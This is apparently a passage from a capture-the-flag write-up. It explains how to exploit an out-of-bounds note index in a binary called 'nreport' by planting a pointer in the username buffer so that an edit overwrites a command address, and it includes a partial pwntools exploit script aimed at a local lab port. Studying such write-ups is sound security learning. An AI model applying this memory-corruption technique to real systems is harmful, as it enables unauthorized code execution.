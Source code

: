 I have almost all all I need to exploit this. I’ll connect to the socket, and pass the token and set a name. Then I’ll create a message (doesn’t matter what’s in it, just need to pass the `Arrayindex` check), and then I’ll edit such that it reads the address of the command.

There’s a couple ways I could approach this. I could try to find somewhere that already has this address (like when it is called on exit), but it’s typically referenced as `userinfo1+0x28`.

Instead, I’ll just write it into the username buffer. The is read as any up to 39 non-newline bytes:

```

  printf("Enter Name: ");
  __isoc99_scanf(" %39[^\n]",userinfo1);

```

I’ll send “0xdf”, some nulls to end the string and to get to an eight-byte divisible address, and then the address of the command. Then this area of memory will look like:

![image-20220728185011483](https://0xdfimages.gitlab.io/img/image-20220728185011483.png)

Then when I edit I’ll select note 13, which will check for buffer addresses in at 13 x 8 = 0x68 bytes after `message_array`:

![image-20220728185011483](https://0xdfimages.gitlab.io/img/image-20220728185011483-arrows.png)

By putting that pointer in, now it will write the title to 0x4041a8, and the message 60 bytes later at 0x4041e4. This means some data in `userinfo1` will be overwritten with the message, but that’s most likely fine (worth noting in case things crash before I get the chance to exit).

#### Exploit

Putting this all together, I’ll start a Python script using [PwnTools](https://github.com/Gallopsled/pwntools). [This video](https://www.youtube.com/watch?v=CAIWF9HzfAc) goes over the binary and some of the analysis above, and then shows the process for developing the script (if you want to start at the script development, jump to [18:36](https://youtu.be/CAIWF9HzfAc?t=1116)):

The final script is:

```

#!/usr/bin/env python3

from pwn import *

def create(title, msg):
    p.sendline(b"1")
    p.sendline(title.encode())
    p.sendline(msg.encode())

def edit(num, title, msg):
    p.sendline(b"3")
    p.sendline(str(num).encode())
    p.sendline(title.encode())
    p.sendline(msg.encode())

if args["REMOTE"]:
    p = remote("127.0.0.1", 9851)
else:
    p = process("./nreport")

command_addr = 0x4041A8

# send token
p.sendline(b"aaaxxxxxxaxxxs")
# send name
p.sendline(b"0xdf" + b"\x00" * 4 + p64(command_addr))
```